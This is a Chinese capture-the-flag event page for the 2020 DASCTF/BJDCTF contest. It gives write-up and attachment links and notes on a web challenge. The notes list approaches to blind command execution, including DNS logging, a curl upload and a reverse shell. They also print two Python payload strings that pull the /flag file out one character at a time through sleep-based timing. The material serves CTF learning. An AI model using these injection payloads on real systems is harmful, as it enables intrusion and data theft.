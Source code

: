 ## 比赛信息

> 任务描述：2020年DASCTF五月线上赛&&第三届BJDCTF
>
> 比赛链接：https://www.linkedbyx.com/taskinfo/1178/detail
>
> 进行时间：2020-5-22 11:00 -- 2020-5-23 23:00 晚上暂停

<br/>

## writeup

官方writeup收集：https://shimo.im/docs/DRgjXTH3cJjrHKcw

[BJD 3nd & DASCTF 五月月赛wp](http://www.resery.top/2020/05/23/BJD%203nd%20&%20DASCTF%20%E4%BA%94%E6%9C%88%E6%9C%88%E8%B5%9Bwp/)

[2020安恒五月赛crypto部分wp](https://badmonkey.site/archives/dasctf-2020-5)

[DASCTF x BJDCTF问题汇总](https://shimo.im/docs/ej5PaWAbTGgxTuYK)

<br/>

## 附件链接

链接：https://pan.baidu.com/s/14rDPhXx7Kc8Vs6cQwOTvWQ 提取码：xing

链接：https://pan.xunlei.com/s/VMdtvRUfPq7_Cfgj3MqKLfrnA1 提取码：cq7z

链接：https://ctf.lanzoui.com/b02c7s32f 密码:xing

<br/>

## 题目信息

### WEB

#### 帮帮小红花（100）

> 明明都已经有了黑页，为啥我不能上车呢？flag为/flag文件内容的md5值
>
> hint1：防火墙
>
> 183.129.189.60:10069,10070,10071,10072,10073,10074

其他writeup:

- https://www.cnblogs.com/h3zh1/p/12945275.html

无回显命令执行，主要有这几个方法：DNSLOG、curl上传文件、反弹shell、sleep盲注

经过测试sleep可用，然后只需要拼出可用的shell命令就行了

```python
# 上面writeup中的
playload = '''h3zh1=$( cat /flag | cut -c %d-%d );if [ $( printf '%%d' "'$h3zh1" ) -gt %d ];then sleep %f;fi''' % ( i, i, mid, SLEEP_TIME)

# 下面我用的
# 直接${flag:0:1}截取字符不好使，这里变通了一下使用${flag#fl}和${#lll}通过截取字符串判断长度
# lll是模糊截取后面的字符串，i从大到小，当sleep 3时，字符c就在倒数第i位上
playload = 'fflag=`cat /flag`;lll=${fflag#*s_great*%s};if [ ${#lll} -ge %d ];then sleep 3;fi'%(c,i)
```
